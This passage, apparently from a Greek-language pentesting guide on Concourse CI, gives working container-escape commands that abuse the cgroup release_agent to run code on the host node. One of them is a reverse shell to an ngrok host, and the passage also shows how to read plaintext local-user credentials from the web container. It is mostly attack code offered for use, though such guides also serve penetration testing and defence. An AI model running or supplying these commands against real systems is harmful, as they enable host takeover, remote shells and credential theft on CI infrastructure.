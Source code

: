 ```bash
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#====================================

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# Reads the output
cat /output
```
{% hint style="warning" %}
Όπως μπορεί να έχετε παρατηρήσει, αυτό είναι απλώς μια [**κανονική απελευθέρωση\_agent escape**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/concourse-security/broken-reference/README.md) απλά τροποποιώντας τη διαδρομή της εντολής στο node
{% endhint %}

#### Απελευθέρωση στο node από ένα Worker container

Μια κανονική απελευθέρωση\_agent escape με μια μικρή τροποποίηση είναι αρκετή για αυτό:
```bash
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab | head -n 1`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#====================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/0.tcp.ngrok.io/14966 0>&1" >> /cmd
chmod a+x /cmd
#====================================
# Get output
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#====================================

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# Reads the output
cat /output
```
#### Escaping to the node from the Web container

Ακόμα και αν το web container έχει κάποιες άμυνες απενεργοποιημένες, **δεν τρέχει ως κοινό προνομιακό container** (για παράδειγμα, **δεν μπορείτε** να **mount** και οι **ικανότητες** είναι πολύ **περιορισμένες**, οπότε όλοι οι εύκολοι τρόποι για να ξεφύγετε από το container είναι άχρηστοι).

Ωστόσο, αποθηκεύει **τοπικά διαπιστευτήρια σε καθαρό κείμενο**:
```bash
cat /concourse-auth/local-users
test:test

env | grep -i local_user
CONCOURSE_MAIN_TEAM_LOCAL_USER=test
CONCOURSE_ADD_LOCAL_USER=test:test
```
Μπορείτε να χρησιμοποιήσετε αυτά τα διαπιστευτήρια για να **συνδεθείτε στον διακομιστή ιστού** και **να δημιουργήσετε ένα προνομιακό κοντέινερ και να διαφύγετε στον κόμβο**.
